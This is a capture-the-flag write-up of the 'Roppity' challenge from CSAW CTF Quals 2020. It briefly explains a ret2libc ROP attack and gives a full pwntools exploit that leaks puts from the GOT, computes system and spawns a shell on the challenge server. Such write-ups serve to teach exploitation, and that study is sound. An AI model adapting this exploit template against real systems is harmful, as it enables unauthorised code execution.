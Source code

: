   title: "Roppity (CSAW CTF Quals 2020)",
  description: "(CSAW CTF Quals 2020)",
  date: "September 14, 2020",
};


<div className={styles.post}>

# Roppity (CSAW CTF Quals 2020)

###### September 14, 2020

The executable was compiled without support for position independent code. Because of this, a ROP chain could be built to leak the address of the <code>puts</code> function in <code>libc</code> through the global offset table. The executable was restarted by jumping back to <code>\_start</code>. Using the address of <code>puts</code>, the address of <code>system</code> in <code>libc</code> was calculated, which was used to spawn a shell.

<div className={styles.codeblock}>

```
from pwn import *

#target = process('./rop')
#libc = ELF('/usr/lib/libc.so.6')

# pwn.chal.csaw.io 5016
target = remote('pwn.chal.csaw.io', 5016)
libc = ELF('libc-2.27.so')

pop_rdi = 0x400683
got_puts = 0x601018
plt_puts = 0x4004a0
ret = 0x40048e
start = 0x4004d0

payload = b''
payload += b'A'*40
payload += p64(pop_rdi)
payload += p64(got_puts) # leak addr
payload += p64(plt_puts) # print address of puts in libc
payload += p64(start) # restart

target.recv() # Hello
target.sendline(payload)
libc_puts = int.from_bytes((target.recv()[:-7]), byteorder='little') # Remove the second b'Hello\n'

libc.address = libc_puts - libc.symbols['puts']

bin_sh = next(libc.search(b'/bin/sh'))

libc_system = libc.symbols['system']

payload = b''
payload += b'A' * 40
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(ret)
payload += p64(libc_system)

target.sendline(payload)
target.interactive()
```
</div>

</div>

